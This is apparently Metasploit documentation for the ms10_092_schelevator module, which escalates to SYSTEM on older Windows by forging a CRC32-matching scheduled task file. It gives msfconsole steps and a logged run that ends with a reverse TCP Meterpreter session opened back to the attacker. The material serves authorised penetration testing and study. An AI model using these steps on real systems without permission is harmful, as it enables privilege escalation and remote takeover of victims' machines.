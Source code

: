 ## Vulnerable Application

This module exploits the Task Scheduler 2.0 XML 0day exploited by Stuxnet. When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with. Also, In a default configuration, normal users can read and write the task files that they have created. By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.

## Scenarios

## Verification Steps

1. Start msfconsole
2. Do: `use modules/exploits/windows/local/ms10_092_schelevator`
3. Do: `set SESSION [#]`
4. Do: `run`

### A run on Windows Vista (Build 6000) and Kali Linux 2019.3

  ```
  msf > use modules/exploits/windows/local/ms10_092_schelevator
  msf exploit(windows/local/ms10_092_schelevator) > set SESSION 1
    SESSION => 1
  msf5 exploit(windows/local/ms10_092_schelevator) > run  
    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Preparing payload at C:\Users\test\AppData\Local\Temp\CItOOtB.exe
    [*] Creating task: TzAZ6H4K
    [*] SUCCESS: The scheduled task "TzAZ6H4K" has successfully been created.
    [*] SCHELEVATOR
    [*] Reading the task file contents from C:\Windows\system32\tasks\TzAZ6H4K...
    [*] Original CRC32: 0x69b1db25
    [*] Final CRC32: 0x69b1db25
    [*] Writing our modified content back...
    [*] Validating task: TzAZ6H4K
    [*]
    [*] Folder: \
    [*] TaskName                                   Next Run Time        Status
    [*] ========================================== ==================== ===============
    [*] TzAZ6H4K                                   12/1/2019 10:41:00 A Ready
    [*] SCHELEVATOR
    [*] Disabling the task...
    [*] SUCCESS: The parameters of scheduled task "TzAZ6H4K" have been changed.
    [*] SCHELEVATOR
    [*] Enabling the task...
    [*] SUCCESS: The parameters of scheduled task "TzAZ6H4K" have been changed.
    [*] SCHELEVATOR
    [*] Executing the task...
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] SUCCESS: Attempted to run the scheduled task "TzAZ6H4K".
    [*] SCHELEVATOR
    [*] Deleting the task...
    [*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.2:49249) at 2019-11-27 10:42:02 -0700
    [*] SUCCESS: The scheduled task "TzAZ6H4K" was successfully deleted.
    [*] SCHELEVATOR
  ```
